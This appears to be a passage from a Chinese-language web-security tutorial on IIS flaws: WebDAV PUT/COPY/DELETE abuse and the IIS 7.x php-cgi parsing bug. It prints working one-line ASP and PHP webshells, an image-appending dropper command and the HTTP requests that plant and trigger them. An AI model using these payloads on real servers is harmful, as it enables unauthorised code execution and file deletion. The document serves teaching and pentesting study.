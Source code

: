 
##### 2.1.3.3. 通过`PUT`方法向服务器上传脚本文件
```
请求：
PUT /a.txt HTTP/1.1
Host:www.example.com
Content-Length:30

<%eval request("chopper")%>
```

##### 2.1.3.4. 通过`Move`或`Copy`方法改名
```
请求：
COPY /a.txt HTTP/1.1
Host:www.example.com
Destination:http://www.example.com/cmd.asp
```

##### 2.1.3.5. 使用`DELETE`方法，攻击者还可以删除服务器上的任意文件
```
请求：
DELETE /a.txt HTTP/1.1
Host:www.example.com
```

> 桂林老兵曾写过一款针对WebDav漏洞的软件:`IIS Write`,利用这款软件,可以快速探测服务器是否存在WebDav漏洞

### 2.2. IIS7.0以上
#### 2.2.1. 影响版本
```
IIS7.0(Win2008R1+IIS7.0)
IIS7.5(Win2008R2+IIS7.5)
```

#### 2.2.2. 原理
* `IIS7.0/7.5`是对`php解析`时有一个类似于Nginx的解析漏洞，对任意文件名只要在URL后面追加上字符串”`/任意文件名.php`”就**会按照`php`的方式去解析**。（例如：`webshell.jpg/x.php`）

* IIS的解析漏洞不像Apache那么模糊，针对IIS6.0，只要文件名不被重命名基本都能搞定。这里要注意一点，对于”`任意文件名/任意文件名.php`”这个漏洞其实是出现自`php-cgi `的漏洞， 所以其实跟IIS自身是无关的。

#### 2.2.3. 利用
* 将shell语句，如  

```
<?PHP fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd])?>');?>
```

写在文本`xx.txt`中(或者shell语句直接写一句话，用菜刀、cknife等直连，只是容易被查杀），然后用命令将shell语句附加在正常图片`xx.jpg`后

```
copy xx.jpg/b + xx.txt/a test.jpg
```

* 上传`test.jpg`，然后访问`test.jpg/.php`或`test.jpg/abc.php`当前目录下就会生成一句话木马 `shell.php`
